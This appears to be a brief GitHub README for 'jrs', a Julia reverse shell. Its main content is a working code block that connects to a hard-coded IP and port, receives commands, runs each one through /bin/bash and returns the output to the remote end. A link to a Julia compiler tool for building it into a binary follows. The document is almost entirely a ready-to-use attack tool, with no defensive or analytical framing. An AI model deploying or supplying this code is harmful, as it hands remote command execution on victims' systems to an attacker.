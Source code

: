 # jrs

julia reverse shell

https://julialang.org/

```
using Sockets

c = connect("192.168.8.139", 9090);
while true
   cmd = readline(c, keep=true);
   try
      println(c, read(`/bin/bash -c $cmd`, String));
   catch e
      print(c, e)
   end
end
```

**Compile**

https://github.com/JuliaLang/PackageCompiler.jl

